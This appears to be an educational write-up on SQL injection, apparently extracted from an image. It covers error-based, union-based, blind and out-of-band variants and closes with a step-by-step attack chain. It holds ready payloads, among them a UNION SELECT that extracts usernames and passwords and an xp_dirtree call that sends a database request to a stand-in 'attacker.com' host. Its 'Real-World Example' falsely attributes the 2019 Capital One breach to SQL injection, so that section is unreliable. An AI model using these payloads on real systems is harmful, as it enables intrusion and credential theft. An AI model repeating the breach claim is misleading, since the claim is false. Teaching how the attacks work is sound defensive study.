 ### **A. In-Band SQLi** (most common)

Uses the same channel for injection and data retrieval.

- **Error-Based SQLi** : Forces the database to produce error messages revealing structure.
- **Union-Based SQLi** : Uses `UNION SELECT` to combine results from different queries.

Example:

```sql
' UNION SELECT username, password FROM users--
```

---

### **B. Blind SQLi**

No direct output — attacker infers data from application behavior.

- **Boolean-Based** : Changes in page content indicate true/false.

```sql
  ' AND 1=1--
  ' AND 1=2--
```

- **Time-Based** : Uses delays to confirm conditions.

```sql
  ' OR IF(1=1, SLEEP(5), 0)--
```

---

### **C. Out-of-Band SQLi**

Uses a different channel (HTTP/DNS) to exfiltrate data.

- Example:

```sql
'; EXEC xp_dirtree '\\attacker.com\share'--
```

→ Causes the DB to make a network request to attacker-controlled server.

---

## 🧪 4. Real-World Example

**2019 Capital One Breach** — misconfigured web app allowed SQLi → attacker accessed personal data of over 100 million customers.

---

## 🎯 5. Attack Chain

1. **Find input** that interacts with the database (URL params, forms, headers).
2. **Test for injection** with `'` or `"` to cause syntax errors.
3. **Identify DB type** (MySQL, MSSQL, Oracle, PostgreSQL).
4. **Extract data** using:
   - `UNION SELECT`
   - Error messages
   - Blind inference
5. **Escalate** — read/write files, execute OS commands (if DB supports it).

---